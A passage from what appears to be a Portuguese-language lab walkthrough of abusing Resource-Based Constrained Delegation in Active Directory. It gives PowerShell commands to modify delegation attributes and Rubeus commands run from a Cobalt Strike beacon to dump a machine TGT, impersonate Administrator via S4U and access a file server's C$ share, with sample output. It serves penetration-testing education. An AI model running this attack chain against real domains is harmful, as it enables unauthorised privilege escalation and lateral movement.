O outro requisito para o abuso de RBCD funcionar é acesso a uma conta que tenha um SPN definido. Isso ocorre porque toda delegação, seja não restrita, restrita ou baseada em recursos, só pode ser configurada em contas que tenham um SPN. Isso faz sentido já que um SPN é fundamental para como o Kerberos funciona.
Opções para obter uma conta com SPN:
- Contas de computador podem ser usadas se você tiver privilégios elevados para SYSTEM em qualquer lugar, já que todo computador tem um conjunto padrão de SPNs como HOST, RestrictedKrbHost, TERMSRV e WSMAN.
- Contas de serviço podem ser usadas se você tiver obtido suas credenciais através de um ataque como kerberoasting.
- Se você não tiver nenhuma das opções acima, uma última tentativa pode ser adicionar seu próprio objeto de computador ao domínio. O Active Directory contém um atributo chamado
msDS-MachineAccountQuotaque controla o número de contas de computador que um usuário tem permissão para criar no domínio (sim, até mesmo usuários de domínio padrão). Isso é 10 por padrão. Ferramentas como StandIn podem criar esses objetos de computador falsos via LDAP.
Executando o Ataque
Primeiro, verificamos o estado atual do atributo PrincipalsAllowedToDelegateToAccount:
PS C:\Users\Attacker> Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
Name PrincipalsAllowedToDelegateToAccount
---- ------------------------------------
LON-DC-1 {}
LON-WS-1 {}
LON-FS-1 {CN=LON-WS-1,OU=Member Servers,DC=krnldv0,DC=com}
LON-WKSTN-1 {}
LON-WKSTN-2 {}
Observação Importante: Uma coleção de propriedades do AD só pode conter valores do mesmo tipo. Como lon-fs-1 já contém lon-ws-1, que é uma conta de computador, não podemos adicionar uma conta de usuário, como mssql_svc. Como não queremos remover lon-ws-1 (embora pudéssemos), isso nos força a usar uma conta de computador.
Para adicionar um computador no qual temos SYSTEM, como lon-wkstn-1, fazemos:
PS C:\Users\Attacker> $ws1 = Get-ADComputer -Identity 'lon-ws-1' -Server 10.10.120.1 -Credential $Cred // $Cred = credenciais do rsteel
PS C:\Users\Attacker> $wkstn1 = Get-ADComputer -Identity 'lon-wkstn-1' -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server 10.10.120.1 -Credential $Cred
Agora, se lermos a propriedade de volta, veremos que nossa entrada foi adicionada (sem sobrescrever a existente):
PS C:\Users\Attacker> Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
Name PrincipalsAllowedToDelegateToAccount
---- ------------------------------------
LON-FS-1 {CN=LON-WS-1,OU=Member Servers,DC=krnldv0,DC=com, CN=LON-WKSTN-1,OU=Workstations,DC=krnldv0,DC=com}
Para obter acesso ao lon-fs-1, precisamos extrair ou solicitar um TGT para o principal que acabamos de adicionar, e então executar as etapas S4U através do Rubeus.
Primeiro, extraímos o TGT do computador lon-wkstn-1:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
[*] Target service : krbtgt
[*] Target LUID : 0x3e7
UserName : LON-WKSTN-1$
Domain : KRNLDV0
ServiceName : krbtgt/KRNLDV0.COM
UserName : LON-WKSTN-1$ (NT_PRINCIPAL)
StartTime : 21/02/2025 14:17:54
EndTime : 22/02/2025 00:16:11
RenewTill : 28/02/2025 14:16:11
Flags : name_canonicalize, pre_authent, renewable, forwardable
KeyType : aes256_cts_hmac_sha1
Base64(key) : Gv0JODuazH1s79IqvftcBcxr8zo131LNay3BM0xnPcw=
Base64EncodedTicket :
doIFr[...snip...]kNPTQ==
Agora executamos o ataque S4U para obter um ticket de serviço para lon-fs-1 como Administrator:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /ticket:doIFr[...snip...]kNPTQ== /nowrap
[*] Action: S4U
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WKSTN-1$@KRNLDV0.COM'
[*] base64(ticket.kirbi):
doIF+[...snip...]4tMSQ=
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':
doIGh[...snip...]nMtMQ==
Injetamos o ticket e acessamos o sistema alvo:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:KRNLDV0.COM /username:Administrator /password:FakePass /ticket:doIGh[...snip...]nMtMQ==
[+] Process : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID : 4568
[+] Ticket successfully imported!
[+] LUID : 0x1355200
beacon> steal_token 4568
beacon> ls \\lon-fs-1\c$
Size Type Last Modified Name
---- ---- ------------- ----
dir 01/23/2025 15:44:52 $Recycle.Bin
dir 01/23/2025 13:57:51 $WinREAgent
dir 01/23/2025 13:47:37 Documents and Settings
dir 02/20/2025 10:37:21 Files
dir 05/08/2021 09:20:24 PerfLogs
dir 01/23/2025 15:46:17 Program Files
dir 01/23/2025 15:46:18 Program Files (x86)
dir 01/24/2025 14:21:18 ProgramData
dir 01/23/2025 13:47:43 Recovery
dir 01/24/2025 14:18:02 System Volume Information
dir 01/24/2025 14:17:49 Users
dir 01/24/2025 13:34:02 Windows
12kb fil 02/21/2025 06:15:31 DumpStack.log.tmp
1gb fil 02/21/2025 06:15:31 pagefile.sys
We Love Jesus. Made by Daniel Andrade & Leonardo Kauan.
✧ Return